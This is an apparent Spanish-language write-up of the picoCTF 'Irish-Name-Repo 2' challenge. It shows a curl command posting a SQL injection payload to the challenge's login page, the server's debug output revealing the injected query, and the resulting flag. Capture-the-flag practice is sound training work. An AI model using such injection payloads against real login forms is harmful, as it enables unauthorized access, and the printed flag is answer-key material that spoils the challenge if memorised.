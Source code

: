 # Irish-Name-Repo 2 

## Descripción
Hay un sitio web en funcionamiento en https://jupiter.challenges.picoctf.org/problem/53751/. Alguien ha eludido el inicio de sesión antes, y ahora se está reforzando. Prueba a ver si todavía puedes iniciar sesión.

## Pistas
- Se está filtrando la contraseña.

## Solución
```bash
C:\Users\Ricardo>curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
```

## Bandera
picoCTF{m0R3_SQL_plz_c34df170}

## Notas adicionales
Nuevamente se usa inyección SQL para resolver el problema.

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)